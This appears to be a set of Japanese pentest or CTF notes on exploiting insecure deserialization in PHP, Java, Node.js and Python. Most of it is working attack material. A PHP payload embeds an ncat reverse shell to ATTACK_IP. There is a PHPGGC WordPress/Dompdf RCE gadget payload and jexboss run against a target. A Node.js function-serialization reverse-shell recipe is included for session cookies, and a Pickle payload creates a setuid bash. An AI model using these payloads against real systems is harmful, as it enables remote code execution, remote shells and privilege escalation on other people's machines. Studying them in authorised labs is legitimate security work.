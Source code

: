 # デシリアライズ

PHP でオブジェクトをシリアライズする例  
php foo.php で実行

```php
<?php
# 仮にMaliciousUserDataクラスがwakeupマジック関数で$commandを実行する実装になっている場合、その動作を制御できる
# unserialize時、同名のクラスに自動的に紐づく。
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

## 自動化

### PHPGGC

https://github.com/ambionics/phpggc

```shell
# インストール
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 一覧
./phpggc -l
./phpggc -l WordPress

# 詳細情報
./phpggc -i WordPress/Dompdf/RCE1

# ペイロードを取得
./phpggc WordPress/Dompdf/RCE1 system whoami
O:19:"Dompdf\Adapter\CPDF":1:{s:15:"*_image_cache";O:33:"Requests_Utility_FilteredIterator":4:{i:0;i:0;i:1;a:1:{i:0;s:6:"whoami";}i:2;a:1:{s:11:"*callback";s:6:"system";}i:3;N;}}

# ペイロードを送信する方法はフレームワークによって様々。
# Cookieを変更したり、APIキーと合わせてエンコードしたり。
```

### Ysoserial

Java 用

https://github.com/frohoff/ysoserial


### jexboss

Java（主にJBoss用？）

環境依存がなく、使いやすかった。TonyTheTiger CTF 参照。

https://github.com/joaomatosf/jexboss/blob/master/README.md

```shell
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss 
pip install -r requires.txt

# no-yes-IP-Port
python jexboss.py -host http://10.10.137.88:8080
```

## Node.js

https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

nodejsshell.py を使ってリバースシェルのシェルコードを生成

```shell
$ python2 ./nodejsshell.py 10.2.22.182 6666
[+] LHOST = 10.2.22.182
[+] LPORT = 6666
[+] Encoding
eval(String.fromCharCode(10,118,97................
```

シリアル化されたペイロードを生成し、 関数本体の後に IIFE 括弧を追加

- 先頭に `{"rce":"_$$ND_FUNC$$_function (){ ` を追加
- 最後に `} () "}` を追加

```shell

```text
{"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(1..........
```

典型的には、これをBase64エンコードしてセッションCookie等として送信する。

## Python Pickle

https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html?highlight=base64%20python#pickle

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("cp /bin/bash /home/dill/bash; chmod +sx /home/dill/bash",))
print(base64.b64encode(pickle.dumps(P())))
```
